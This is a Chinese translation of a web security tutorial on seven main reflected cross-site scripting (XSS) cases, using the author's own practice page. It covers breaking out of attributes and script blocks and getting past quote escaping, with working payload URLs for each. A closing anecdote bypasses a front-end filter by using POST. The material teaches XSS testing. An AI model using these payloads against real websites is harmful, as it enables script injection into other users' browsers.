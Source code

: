 > 原文链接: https://www.anquanke.com//post/id/86585 


# 【技术分享】每个人都该知道的7种主要的XSS案例


                                阅读量   
                                **171077**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://brutelogic.com.br/blog/the-7-main-xss-cases-everyone-should-know/](https://brutelogic.com.br/blog/the-7-main-xss-cases-everyone-should-know/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01df16eaa5c0266560.png)](https://p5.ssl.qhimg.com/t01df16eaa5c0266560.png)



译者：[DropsAm4zing](http://bobao.360.cn/member/contribute?uid=2914824807)

预估稿费：160RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**0x00 引子**

****

**“Master the 7 Main XSS Cases and be able to spot more than 90% of XSS vulnerabilities out there.”**

这句话说的这么diao，吓得我赶紧早早起来好好学学姿势。

当我们读一些XSS相关资料时，经常能看到像&lt;script&gt;alert(1)&lt;/script&gt;这样经典的PoC(Proof of Concept)代码。尽管简单明了，但它并不能够让这个领域的初学者在真枪实战中有进一步的提升。

So，本文中介绍的7个实例，目的是让大家在学习之后便能对绝大多数的XSS漏洞不仅仅是证明其存在，而是利用它们。

练习站点链接：[https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php)

[![](https://p3.ssl.qhimg.com/t017303348e999a8d95.png)](https://p3.ssl.qhimg.com/t017303348e999a8d95.png)

在源码开头的HTML注释中包含了触发每个案例的所有参数，这些参数都可通过GET和POST提交请求。

 [![](https://p3.ssl.qhimg.com/t01e9d25ea012ecf787.png)](https://p3.ssl.qhimg.com/t01e9d25ea012ecf787.png)

可能你注意到了，所有的案例都是基于源的，这意味着注入会始终显示在HTTP响应正文的源代码检索中。反射型或存储型相互独立，但这里重要的是它们触发时上下文关系的呈现，因此我们以反射型为主。基于DOM类型的XSS 漏洞不暴露在源代码，我们暂不赘述。

一定要记得在本机没有XSS过滤器的浏览器中尝试下面这些实例，如Mozilla Firefox。

<br>

**0x01 URL 反射**

****

当源代码中存在URL反射时，我们可以添加自己的XSS向量和载荷。对于PHP的页面，可以通过使用斜杠”/”在页面的名称后添加任何内容。

```
http://brutelogic.com.br/xss.php/”&gt;&lt;svg onload=alert(1)&gt;
```



需要用开头的(“&gt;)标签来破坏当前标签的闭合状态，为将插入的新标签(触发XSS的代码标签)创造可能的闭合条件。



```
&lt;!—URL Reflection --&gt;
&lt;form action=”/xss.php/”&gt;&lt;svg onload=alert(1)&gt;” method=”POST”&gt;
&lt;br&gt;
```

[![](https://p3.ssl.qhimg.com/t01ce9dfd4e8963c09c.png)](https://p3.ssl.qhimg.com/t01ce9dfd4e8963c09c.png)

虽然不同语言的差异造成的不同的触发原因(反射可能出现在路径或URL参数中)。相对于PHP而言，罪魁祸首通常是在提交表单的动作中使用到了全局变量。

```
$_SERVER[“PHP_SELF”]
```



**0x02 简单的HTMLi(HTML注入)**

****

最直接的一种方式，输入就是反射，输入部分显示在已存在的标签之前、后或标签之间。不需要绕过或破坏任何闭合，任何简单的像&lt;tag handler=jsCode&gt;形式的XSS向量都可以实现。

```
http://brutelogic.com.br/xss.php?a=&lt;svg onload=alert(1)&gt;
```





```
&lt;h1&gt;XSS Test&lt;/h1&gt;
&lt;!-- Simple HTMLi --&gt;
Hello, &lt;svg onload=alert(1)&gt;!
&lt;br&gt;
```



**[![](https://p5.ssl.qhimg.com/t01016b2f728009d6d9.png)](https://p5.ssl.qhimg.com/t01016b2f728009d6d9.png)**

**<br>**

**0x03 Inline HTMLi**

****

和上一个相比这个实例也相对简单，但是需要 "&gt; 破坏前面的闭合标签，重新添加并创建新的标签闭合。



```
&lt;!-- Inline HTMLi (Double Quotes) --&gt;
&lt;input type="text" name="b1" value=""&gt;&lt;svg onload=alert(1)&gt;"&gt;
&lt;br&gt;
&lt;br&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0181334e046f5b9a02.png)<br>

<br>

**0x04 Inline HTMLi: No Tag Breaking**

****

当在HTML属性中输入并且对大于号(&gt;)进行过滤时，像之前的实例一样破坏前面的闭合标签达到反射是不可能了。



```
&lt;!-- Inline HTMLi - No Tag Breaking (Double Quotes) --&gt;
&lt;input type="text" name="b3" value=""&amp;gt;&gt;&lt;svg onload=alert(1)&amp;gt;"&gt;
&lt;br&gt;
&lt;br&gt;
```

[![](https://p1.ssl.qhimg.com/t01fe73b42927496ddb.png)](https://p1.ssl.qhimg.com/t01fe73b42927496ddb.png)

所以这里使用一个适合我们在此处注入的，并可在标签内触发的事件处理程序，比如:

```
http://brutelogic.com.br/xss.php?b3=” onmouseover=alert(1)//
```

这个方式闭合了标签中value值的引号，并且给onmouseover插入了事件。alert(1)之后的双引号通过双斜杠注释掉，当受害者的鼠标移动到输入框时触发js弹窗。



**0x05 HTMLi in Js(Javascript) Block**

****

输入有时候会传入到javascript代码块中，这些输入通常是代码中的一些变量的值。但因为HTML标签在浏览器的解析中有优先级，所以我们可以通过js标签闭合原有的js代码块并插入一个新的标签插入传入你需要的js代码。

```
http://brutelogic.com.br/xss.php?c1=&lt;/script&gt;&lt;svg onload=alert(1)&gt;
```



```
// HTMLi in Js Block (Single Quotes)
var myVar1 = '&lt;/script&gt;&lt;svg onload=alert(1)&gt;';
```

 [![](https://p4.ssl.qhimg.com/t01091d199065d2cc75.png)](https://p4.ssl.qhimg.com/t01091d199065d2cc75.png)



**0x06 Simple Js Injection**

****

如果脚本的标签被某种方式过滤掉了，之前讨论的姿势也随之失效。



```
// Simple Js Injection (Single Quotes)
var myVar3 = '&gt;&lt;svg onload=alert(1)&gt;';
```

这里的绕过方法可以根据语法注入javascript代码。一个已知的方法是用我们想要执行的代码”连接”到可触发漏洞的变量。因为我们不能让任何单引号引起报错，所以先构造闭合，然后使用”-”连接来获得一个有效的javascript代码。



```
http://brutelogic.com.br/xss.php?c3=’-alert(1)-‘
// Simple Js Injection (Single Quotes)
var myVar3 = ''-alert(1)-'';
```

[![](https://p2.ssl.qhimg.com/t0178346a86739042d7.png)](https://p2.ssl.qhimg.com/t0178346a86739042d7.png)



**0x07 Escaped Js Injection**

****

在之前的实例中，如果引号(用于置空闭合变量的值)被反斜杠()转义，注入将不会生效(因为无效的语法)。



```
// Escaped Js Injection (Single Quotes)
var myVar5 = ''-alert(1)-'';
```

为此，我们可以通过骚姿势——转义。我们可以插入一个前反斜杠，这样后面的引号将会完成闭合，从而触发传入的js代码。在插入我们想要执行的js代码后，需要对其余部分进行注释，因为剩余的部分已经无需执行或重复执行。



```
http://brutelogic.com.br/xss.php?c5='-alert(1)//
// Escaped Js Injection (Single Quotes)
var myVar5 = '\'-alert(1)-//';
```

[![](https://p5.ssl.qhimg.com/t012e6d5a52e12054b0.png)](https://p5.ssl.qhimg.com/t012e6d5a52e12054b0.png)

**<br>**

**扩展一点点?**

****

这里自己扩展一个自己的实际应用中遇到然后学到的姿势，希望看完能有所收获。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ad835bd1b5684bd3.png)

[![](https://p4.ssl.qhimg.com/t012646e28b4ddf3ba6.png)](https://p4.ssl.qhimg.com/t012646e28b4ddf3ba6.png)

直接通过URL通过GET请求触发XSS返回404，通过参数直接访问可以显示正常界面，那么应该是被过滤了。先自己用xsstrike跑了一下，提示是存在XSS的，但是打开浏览器的反应都是返回了空白页面，说明是多次的误报(xsstrike不是基于webkit，因此容易产生误报)。

而后查看源码，在页面可以看到前端通过正则过滤了特殊字符，重定向到404页面。

[![](https://p2.ssl.qhimg.com/t015b59c9dabfb175a3.png)](https://p2.ssl.qhimg.com/t015b59c9dabfb175a3.png)

[![](https://p0.ssl.qhimg.com/t0121366524af51b753.png)](https://p0.ssl.qhimg.com/t0121366524af51b753.png)

过滤的很全乎，那看起来好像是没戏了，遂去请教大神，所以姿势就涨起来了。

这里的原因是因为后端PHP在处理请求的时候使用的是$_REQUEST方法，因此可接受POST和GET请求。

So，成功弹窗。

[![](https://p2.ssl.qhimg.com/t014f56878584ed85fd.png)](https://p2.ssl.qhimg.com/t014f56878584ed85fd.png)
